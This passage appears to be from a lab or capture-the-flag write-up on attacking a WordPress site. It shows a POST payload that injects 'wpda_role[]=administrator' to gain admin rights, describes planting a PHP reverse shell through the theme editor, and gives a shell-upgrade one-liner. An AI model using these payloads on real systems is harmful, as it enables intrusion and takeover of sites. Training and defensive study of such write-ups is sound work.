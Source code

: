 ### Modified POST Data (with `wpda_role[]=administrator`):
```plaintext
_wpnonce=ddd142855f&_wp_http_referer=%2Fwordpress%2Fwp-admin%2Fprofile.php&from=profile&checkuser_id=2&color-nonce=bc3e321271&admin_color=fresh&admin_bar_front=1&first_name=bob&last_name=bob&nickname=bob&display_name=bob+bob&email=bob%40localhost.com&url=&description=hiiii&pass1=&pass2=&action=update&user_id=2&submit=Update+Profile&wpda_role[]=administrator
```

### Key Details:
- **`wpda_role[]=administrator`**: This parameter will attempt to elevate the user’s role to `administrator`.
- The rest of the POST data remains unchanged.

We got admin access!

![[Pasted image 20240920173920.png]]



## Reverse Shell

```python
Tools --> Theme File Editor -> Patterns --> modify a file with a reverse shell 
```

Reverse PHP Shell: https://github.com/pentestmonkey/php-reverse-shell

I modified a specific file and then navigated to the file after had created my listener. 


We got shell! 


![[Pasted image 20240920182006.png]]


Upgrading shell: 

```python
python3 -c 'import pty; pty.spawn("/bin/bash")'; stty raw -echo; fg; reset; export SHELL=/bin/bash; export TERM=xterm-256color


# Fixes it 
stty rows 40 columns 100

```


Now that I've stabilized shell. It was time to investigate.  

![[Pasted image 20240920182454.png]]


Given we cannot use sudo -l for SUID permission to look for weaknesses via GTFO bins. I chose an alternative instead (https://delinea.com/blog/linux-privilege-escalation). This provided an alternative to finding SUIDs I could later investigate for misconfigurations. 
